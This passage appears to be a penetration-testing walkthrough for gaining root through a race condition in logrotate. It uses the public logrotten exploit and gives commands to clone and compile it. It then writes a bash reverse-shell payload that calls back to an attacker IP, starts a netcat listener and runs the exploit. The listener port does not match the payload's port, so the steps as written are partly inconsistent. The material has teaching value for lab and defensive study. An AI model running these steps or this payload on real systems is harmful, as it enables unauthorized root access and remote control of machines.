 ```
which logrotate
ls -la /usr/sbin/logrotate
```

**3.** vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

```
logrotate --version
```


The general idea is that logrotate will archive the log file to the log directory, but there is a split second before this happens, and the exploit will replace the log directory with a symlink to /etc/bash_completion.d/, achieving write as root to /etc/bash_completion.d/.

For exploiting this, we need to locate which service is running the generation of log. One way to explore this is by printing the configuration of every service at `/etc/logrotate.d/`.

```
cat /etc/logrotate.d/

```


The exploit is at: https://github.com/whotwagner/logrotten

```
git clone https://github.com/whotwagner/logrotten.git

cd logrotten

gcc -o logrotten logrotten.c
```

Next, we need a payload to be executed.

 In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.
 
```shell-session
echo 'sh -i >& /dev/tcp/10.10.15.41/1234 0>&1' > payload
```

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

If the output is "create", then we will use the exploit adapted to this function.

```
# First set a listener on our kali machine
nc -lnvp 9001


# Now run the exploit adapted to the create function:
./logrotten -p ./payload /tmp/log/pwnme.log
```
